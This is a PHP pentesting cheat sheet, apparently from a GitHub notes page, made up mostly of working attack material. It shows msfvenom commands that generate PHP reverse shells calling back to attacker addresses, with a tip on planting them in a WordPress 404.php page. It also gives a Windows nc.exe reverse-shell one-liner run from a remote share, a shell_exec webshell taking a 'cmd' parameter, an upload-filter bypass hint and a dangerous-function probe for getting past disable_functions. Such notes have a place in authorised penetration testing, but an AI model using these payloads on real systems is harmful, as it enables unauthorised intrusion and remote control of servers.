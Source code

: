 # PHP

## Run code / cmdline

```php
# EXECUTE PHP EXPLOITS
php $FILE
# INTERACTIVE MODE
php -a
php --interactive
php> echo urldecode("");
php > $x = "hello"
php > echo($x)
```

## **PHP** **Windows** **revshell**

```bash
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw > shell.php
# In case we need PHP code to copy it to a page like Wordpress 404.php
msfvenom -p php/reverse_php LHOST=192.168.0.0 LPORT=443 -f raw
# Then get a more stable revshell doing sth like this:
start /b \\192.168.0.0\share\nc.exe 192.168.0.0 80 -e cmd
```

## **Webshell**

Ignore filetype limitation with Burp by inspecting the request.

{% code overflow="wrap" %}
```php
# First to read a file
<?php
    echo shell_exec("cat $PATH");
?>

# Now the webshell
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; //with tags to see it nicer line by line
?>
```
{% endcode %}

## Bypass disable\_functions

{% code overflow="wrap" fullWidth="true" %}
```php
https://github.com/TarlogicSecurity/Chankro
Your favourite tool to bypass disable_functions and open_basedir in your pentests.

# Dangerous function checker 
In case we can access phpinfo() or know which functions are disabled, this script will tell us if there is any dangerous function enabled that we can leverage:
<?php
$dangerous_functions = array(['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail','mb_send_mail','imap_open','imap_mail','libvirt_connect','gnupg_init','imagick']);

```